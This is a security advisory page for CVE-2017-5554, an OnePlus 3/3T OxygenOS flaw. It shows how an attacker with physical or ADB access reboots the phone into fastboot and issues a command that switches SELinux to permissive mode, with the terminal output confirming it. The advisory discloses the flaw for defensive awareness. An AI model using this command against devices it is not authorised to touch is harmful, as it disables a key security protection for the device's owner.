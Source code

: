 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-22'
    - type: 'release'
      date: '2017-01-11'
      
cve: CVE-2017-5554
alephid: ALEPH-2017001
title: OnePlus 3/3T OxygenOS SELinux Security Bypass
product:
    - OnePlus 3T
    - OnePlus 3
vulnerable: 
    - OxygenOS prior to 4.0.2

references:
    - src: securityresear.ch
      url: https://securityresear.ch/2017/01/11/fastboot-oem-selinux-permissive/
      
severity: high
date: '2017-01-11'
---
```

The attacker can reboot a OnePlus 3/3T device into the fastboot mode, which could be done without any authentication. A physical attacker can press the "Volume Up" button during device boot, where an attacker with ADB access can issue the adb reboot bootloader command. Then, the attacker can put the platform's SELinux in permissive mode, which severely weakens it, by issuing: 

```terminal
fastboot oem selinux permissive
...
OKAY [  0.045s]
finished. total time: 0.047s

....

OnePlus3:/ $ getenforce
Permissive
OnePlus3:/ $
```